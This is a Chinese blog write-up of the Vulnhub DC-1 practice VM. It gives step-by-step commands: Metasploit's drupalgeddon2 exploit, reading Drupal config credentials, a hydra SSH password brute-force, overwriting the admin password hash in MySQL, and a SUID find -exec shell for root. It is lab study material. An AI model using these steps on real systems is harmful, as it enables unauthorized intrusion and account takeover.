来自之前cnblog的博客
源地址：https://www.cnblogs.com/This-is-Y/p/11637694.html
前言
之前听说过这个叫Vulnhub DC-1的靶机，所以想拿来玩玩学习，结果整个过程都是看着别人的writeup走下来的，学艺不精，不过这个过程也认识到，学会了很多东西。
所以才想写点东西，记录一下
1.下载
地址https://www.vulnhub.com/entry/dc-1-1,292/

建议用镜像，快一点
使用Oracle VM VirtualBox打开

2.开始
打开虚拟机后。提示需要账号密码

这个是需要你自己去找的
于是打开kali，vmware的网络配置使用桥接网络，用
arp-scan -l
扫描
其中的 Cadmus Computer Systems即为我们的目标，打开前面的192.168.124.76，如图

这里推荐一个chrome插件，叫wappalyzer，这个可以检测网站的信息，cms，框架，服务器等等，非常棒。通过这个插件，可以得知这个网站使用的是drupalCMS
在msf中查找对应的信息
search drupal

用第5个，先
set rhosts 192.168.124.76
然后use exploit/unix/webapp/drupal_drupalgeddon2
再exploit
如图
当提示session1 open时，则已经成功进入了
执行命令shell命令获得shell
输入ls

发现有给flag1.txt的文件，打开看一下
cat flag1.txt

翻译翻译，每一个好的CMS都需要一个配置文件，你也一样。
找到这个CMS的配置文件（google）
cd sites/default
cat settings.php

这边看到了flag2
再翻译翻译
蛮力和字典攻击不是
只有获得访问的方法(您将需要访问)。
你能用这些凭证做什么?
意思是让我不要用暴力破解得方法搞密码？maybe
同时，下面有数据库账号密码
dbuser R0ck3t
直到现在还没有拿到登陆的账号密码
这边进入/etc/passwd看一下

发现有个叫flag4的账号，如何用john +hydra试着暴力破解一下
hydra是kali自带的，john需要自己安装，这个网上去找教程，这里不放出来了
hydra -l flag4 -P /root/john-1.8.0/run/password.lst ssh://192.168.124.76

然后密码就出来了。。。。。
在vm virutalBox上登陆一下

也可以用kalissh远程登陆（推荐用这个，vmbox太tm蛋疼了）

然后登陆mysql
mysql -u dbuser -p

然后开始找东西
show databases；
show tables
发现有一个叫users的表

打开，发现

再百度一波，如何重置drupal的密码
用update users set pass=‘$S$CDbdwZvjHQ09IVRs88G0fnaxPr50/kb81YI9.8M/D9okW7J/s5U4’ where name=‘admin’;
然后用password登陆，这边这个加密方法我还没搞懂
之后就可以登录之前的网站(192.168.124.76)了

登陆后，在网站里扒拉来，扒拉去，在左上的content里看到一个叫flag3的玩意

发现这是一个提示

Special PERMS will help FIND the passwd - but you’ll need to -exec that command to work out how to get what’s in the shadow.
提到了find和-exec，提权用的（学艺不精，看的别人的）
回到kali
find / -perm -u=s -type f 2>/dev/null
find / -type f -name getflag -exec “/bin/sh” ;
提权部分知识参考https://blog.csdn.net/qq_36119192/article/details/84872644
ls
cd ../..
cd /root
cat thefinalflag.txt

然后就算是告一段落了
总结
做完这个感觉自己真的很菜，在此总结一下这个过程中了解到的，学到的，以及还不懂的知识
1.arp-scan -l 用来扫描局域网内的主机。（参考https://blog.csdn.net/weixin_43221560/article/details/90550294）
2.用 msf5来reach drupal寻找漏洞，配置并使用这些漏洞（一知半解，还得好好学习），
3.ssh远程连接，如在渗透过程中使用到的 ssh flag4@192.168.124.76。挺方便的
4.john the Ripper +hydra 爆破，（john下载安装参考https://blog.csdn.net/Romanticduan/article/details/81233479，使用参考https://blog.csdn.net/qq_36119192/article/details/83373895）
hydra -l flag4 -P /root/john-1.8.0/run/password.lst ssh://192.168.124.76（也是一知半解，同样得学）
5.suid提权
find / -perm -u=s -type f 2>/dev/null
find / -type f -name getflag -exec “/bin/sh” ;
提权部分知识参考https://blog.csdn.net/qq_36119192/article/details/84872644
（这边应该更重要）
6.熟悉了linux的一些命令，文件
目前来说就想到了这些
先这样吧